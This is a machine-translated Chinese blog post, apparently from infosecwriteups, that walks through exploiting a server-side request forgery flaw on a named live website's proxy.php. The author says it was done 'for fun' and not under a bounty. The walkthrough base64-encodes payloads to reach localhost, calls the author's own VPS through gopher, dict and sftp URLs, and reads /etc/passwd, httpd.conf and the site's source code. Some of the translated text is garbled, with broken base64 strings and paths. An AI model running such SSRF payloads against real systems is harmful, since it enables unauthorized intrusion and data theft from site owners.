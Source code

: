 # 服务器端请求伪造(SSRF)测试

> 原文：<https://infosecwriteups.com/server-side-request-forgery-ssrf-testing-b9dfe57cca35?source=collection_archive---------4----------------------->

这个故事只是为了好玩测试 SSRF，而不是一个赏金写。我发现了一个易受 SSRF 攻击的随机网站，但为了利用它，我应该将我的输入转换为 base64。这里是 http://playfreedownloadgames.com:2483/proxy.php?的遗址[URL = ahr 0 cdovl 3d 3d y 50 B3 a4 mhnnyw1 lcy 5 JB 20 VC 2 l0 zs 9 JB 250 zw 50 L3 bhy 21 hbg = =](http://playfreedownloadgames.com:2483/proxy.php?url=aHR0cDovL3d3dy50b3A4MHNnYW1lcy5jb20vc2l0ZS9jb250ZW50L3BhY21hbg==)。如果我解码 base64，那么我得到了这个吃豆人游戏网站【http://www.top80sgames.com/site/content/pacman[](http://www.top80sgames.com/site/content/pacman)**。**

**![](img/53074dcdabe65920848c4f26f53c8b99.png)**

**所以让我们用 convert[**http://127 . 0 . 0 . 1:80**](http://127.0.0.1:80)到 base64**ahr 0 cdovlzeyny 4 wljaumto 4ma = =**试一下，在 burp repeater 上运行。**

**![](img/93d57045cdc57a1aeba7f3d406d02ee0.png)**

**现在尝试使用端口 443，看看它是什么样子。**

**![](img/42efb8704695f229a3e33c3f5d56c841.png)**

**因为我使用端口 443 请求 HTTP，所以发生了错误请求。让我们试试 gopher，dict 和 sftp。我将在我的 VPS 中监听 1337 端口。**

**![](img/e4680c2d58f6918b0aeb7ca4b8a2c249.png)**

**我尝试**gopher://my _ VPS _ IP:1337/_ pacenoge**， **dict://my_vps_ip:1337** 和 **sftp://my_vps_ip:1337** 都执行成功。还有什么？试试 **file:///etc/passwd****

**![](img/befa856a41d1c6d79bf8d5ebfe7cfdea.png)**

**好的，我想看看 **httpd.conf** 。默认路径是这个**/etc/httpd/conf/httpd . conf****

**![](img/b5606abba245304cc360f8d66c1a496d.png)**

**通过阅读 **httpd.conf** 文件，我知道 web 路径**/home/play free download games/public _ html**，所以我想通过访问这里的**/home/play free download games/public _ html/proxy . PHP**来了解**proxy.php**的代码**

**![](img/bccbbe9272cae50694285caf6e6a6c12.png)**

**参考[http://blog.orange.tw](http://blog.orange.tw/)和 h1 SSRF 的报道。就是这样。黑客快乐！:)**